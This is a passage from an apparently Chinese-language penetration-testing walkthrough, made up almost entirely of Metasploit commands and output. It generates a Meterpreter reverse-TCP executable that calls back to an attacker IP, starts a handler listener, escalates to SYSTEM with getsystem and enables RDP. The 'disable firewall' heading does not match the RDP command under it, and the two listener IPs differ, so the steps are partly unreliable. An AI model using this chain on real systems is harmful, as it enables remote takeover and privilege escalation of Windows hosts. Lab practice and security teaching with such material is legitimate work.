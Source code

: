 #### 反向shell：

```plain
msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.254.129 LPORT=7777 -f exe -o shell.exe
# 反向shell
```

#### 开启msf监听:

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.53.131
set lport 8885
run
```

[![](assets/1701827767-937647948ca740a837bd2ec1627dbb14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191241-b5f08a5e-9103-1.png)

提权：

```plain
meterpreter > getuid
Server username: GOD\Administrator

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

[![](assets/1701827767-8d2ec22c22542ac477ff82da36f5af74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191249-ba42c392-9103-1.png)

关闭防火墙

```plain
meterpreter >  run post/windows/manage/enable_rdp
```

[![](assets/1701827767-769d05bf4fd346c15731147532a0bfb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085031-4a4c6d66-9308-1.png)
